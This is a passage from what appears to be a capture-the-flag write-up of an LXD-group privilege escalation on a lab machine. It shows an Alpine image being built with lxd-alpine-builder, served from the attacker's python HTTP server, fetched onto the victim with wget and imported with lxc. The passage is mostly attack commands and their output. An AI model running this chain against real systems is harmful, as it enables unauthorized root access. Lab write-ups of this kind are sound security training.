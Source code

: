   The following commands will build the image on your attacking machine:

  ```
  cd lxd-alpine-builder
  sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
  sudo ./build-alpine -a i686
  ```
2. On running the above command, a tar.gz file is created in the working directory. We can now transfer this to the victim machine with a python3 server

  ```
  ┌──(kali㉿kali)-[~/Desktop/GamingServer/lxd-alpine-builder-master]
  └─$ ls
  alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  README.md
  alpine-v3.8-i686-20231101_1042.tar.gz     LICENSE

  ┌──(kali㉿kali)-[~/Desktop/GamingServer/lxd-alpine-builder-master]
  └─$ python3 -m http.server 6789
  Serving HTTP on 0.0.0.0 port 6789 (http://0.0.0.0:6789/) ...

  ```

  ```
  john@exploitable:~$ wget http://10.8.191.218:6789/alpine-v3.8-i686-20231101_1042.tar.gz
  --2023-11-01 14:44:19--  http://10.8.191.218:6789/alpine-v3.8-i686-20231101_1042.tar.gz
  Connecting to 10.8.191.218:6789... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 2674730 (2.6M) [application/gzip]
  Saving to: ‘alpine-v3.8-i686-20231101_1042.tar.gz’

  alpine-v3.8-i686-202 100%[===================>]   2.55M   820KB/s    in 3.2s    

  2023-11-01 14:44:22 (820 KB/s) - ‘alpine-v3.8-i686-20231101_1042.tar.gz’ saved [2674730/2674730]

  ```

3. import the image 

  ```
  john@exploitable:~$ lxc image import ./alpine-v3.8-i686-20231101_1042.tar.gz --alias myimage
  Image imported with fingerprint: 7092113e75f1c87292d0cba350da7f0c7e1057e88f07a847
  john@exploitable:~$ lxc image list
  +---------+--------------+--------+------------------------------+------+--------+-----------------------------+
  |  ALIAS  | FINGERPRINT  | PUBLIC |         DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE         |
  +---------+--------------+--------+------------------------------+------+--------+-----------------------------+
  | myimage | 7092113e75f1 | no     | alpine v3.8 (20231101_10:42) | i686 | 2.55MB | Nov 1, 2023 at 2:46pm (UTC) |
  +---------+--------------+--------+------------------------------+------+--------+-----------------------------+

  ```

